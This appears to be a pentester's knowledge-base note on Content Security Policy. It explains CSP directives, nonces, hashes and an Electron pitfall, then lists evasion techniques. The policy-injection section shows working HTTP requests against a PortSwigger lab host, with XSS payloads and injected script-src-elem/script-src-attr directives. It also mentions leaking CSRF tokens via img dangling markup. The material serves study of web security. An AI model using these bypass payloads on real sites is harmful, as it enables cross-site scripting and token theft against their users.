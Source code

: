>[!summary]
>Content Security Policy (CSP) is a detection and prevention mechanism that provides mitigation against attacks such as [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) [^1] and [Clickjacking](Clickjacking.md). CSP is usually implemented in the web server as a return header of the form: `Content-Security-Policy: policy` where policy is a string of policy directives separated by semicolons.

[^1]: https://portswigger.net/web-security/cross-site-scripting/preventing#:~:text=Mitigating%20XSS%20using%20content%20security%20policy%20(CSP)

The CSP provides the client browser with information about permitted resources that a page can load or from which can be embedded in frames.

Some examples:
- `Content-Security-Policy: frame-ancestors 'self';`: CSP whitelists frames to the same domain only
- `Content-Security-Policy: frame-ancestors normal-website.com;`: framing restricted to a named site
- `Content-Security-Policy: script-src 'self';`: scripts are allowed only from the same origin ([SOP](Same-origin%20policy%20(SOP).md))
- `Content-Security-Policy: script-src https://scripts.normal-website.com;`: scripts are allowed only from a specific domain
- `Content-Security-Policy: img-src 'self';`: images are allowed only from the same origin ([SOP](Same-origin%20policy%20(SOP).md))
- `Content-Security-Policy: img-src https://scripts.normal-website.com;`: images are allowed only from a specific domain

In addition to whitelisting specific domains, content security policy also provides two other ways of specifying trusted resources: nonces and hashes:

- The CSP directive can specify a nonce (a random value) and the same value must be used in the tag that loads a script. If the values do not match, then the script will not execute. To be effective as a control, the nonce must be securely generated on each page load and not be guessable by an attacker.
- The CSP directive can specify a hash of the contents of the trusted script. If the hash of the actual script does not match the value specified in the directive, then the script will not execute. If the content of the script ever changes, then you will of course need to update the hash value that is specified in the directive.

>[!warning] CSP and Electron applications
>What does the `script-src 'self'` CSP value mean for `file://` URLs used in Electron App? 
>
>It allows **any file from the file system** to be loaded! [^csp-electron]

[^csp-electron]: [Paul Gerste - Remote Code Execution in Tutanota Desktop Due to Code Flaw](../../Readwise/Articles/Paul%20Gerste%20-%20Remote%20Code%20Execution%20in%20Tutanota%20Desktop%20Due%20to%20Code%20Flaw.md#^ee5e7a)

## CSP Evasion

### Using `img` and dangling markup

It's quite common for a CSP to block resources like `script`. However, many CSPs do allow image requests. This means you can often use `img` elements to make requests to external servers in order to disclose [CSRF tokens](Cross-Site%20Request%20Forgery%20(CSRF).md#CSRF%20tokens), for example.

From the research: [Evading CSP with DOM-based dangling markup](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup)

![XSS + Dangling Markup + CSP bypass + CSRF](HTML%20and%20CSS%20Injection.md#XSS%20+%20Dangling%20Markup%20+%20CSP%20bypass%20+%20CSRF)

### Policy injection

You may encounter a website that reflects input into the actual policy, most likely in a `report-uri` directive. If the site reflects a parameter that you can control, you can inject a semicolon to add your own CSP directives.

Default policy (noticed the `token` parameter in `report-uri`):
```http
GET /?search=<img+src+onerror=alert(1)> HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net



HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```

The parameter can be controlled and arbitrary policies can be injected:
```http
GET /?search=<img+src+onerror=alert(1)>&token=filler;+foo+'bar' HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net


HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=filler; foo 'bar'
```

Normally, it's not possible to overwrite an existing `script-src` directive. However, Chrome recently introduced the `script-src-elem` [^script-src-element] directive, which allows you to control `script` elements, but not events.

[^script-src-element]: https://w3c.github.io/webappsec-csp/#directive-script-src-elem

```html
Content-Security-Policy: script-src-elem 'none'; script-src-attr 'unsafe-inline'

<script>alert("This will be blocked")</script>
<a href="#" onclick="alert('This will be allowed')">test</a>
```

Crucially, this new directive allows you to [overwrite existing `script-src` directives](https://portswigger.net/research/bypassing-csp-with-policy-injection).

```http
GET /?search=<img+src+onerror=alert(1)>&token=filler;+script-src-elem+'none'%3b+script-src-attr+'unsafe-inline' HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net


HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=filler; script-src-elem 'none'; script-src-attr 'unsafe-inline'
```

![](../../zzz_res/attachments/CSP-policy-injection.png)

Further examples:
- [eXtra Safe Security layers](../../Play%20ground/CTFs/eXtra%20Safe%20Security%20layers.md)

### Other techniques

- [AngularJS CSP bypass](../Dev,%20scripting%20&%20OS/AngularJS.md#AngularJS%20CSP%20bypass)
- [Ambushed by AngularJS: a hidden CSP bypass in Piwik PRO](https://portswigger.net/research/ambushed-by-angularjs-a-hidden-csp-bypass-in-piwik-pro)
- [Bypass CSP using MIME sniffing](MIME%20sniffing.md#Bypass%20CSP%20using%20MIME%20sniffing)
- Bypass CSP using [JSONP](JSONP%20vulnerabilities.md#JSON%20with%20Padding%20(JSONP)) as a gadget [^CSP-JSONP]
- Misconfigured CSP [^csp-in-the-wild]

[^csp-in-the-wild]: [Misconfigured CSP In the wild](../../Readwise/Articles/Gareth%20Heyes%20-%20Using%20Form%20Hijacking%20to%20Bypass%20CSP.md#In%20the%20wild), Gareth Heyes - Using Form Hijacking to Bypass CSP

[^CSP-JSONP]: [Riding the Waves of API Versioning Unmasking a Stored XSS Vulnerability, CSP Bypass Using YouTube OEmbed](../../Readwise/Articles/SMHTahsin33%20-%20Riding%20the%20Waves%20of%20API%20Versioning%20Unmasking%20a%20Stored%20XSS%20Vulnerability,%20CSP%20Bypass%20Using%20YouTube%20OEmbed.md), SMHTahsin33

## Tools
- https://cspbypass.com/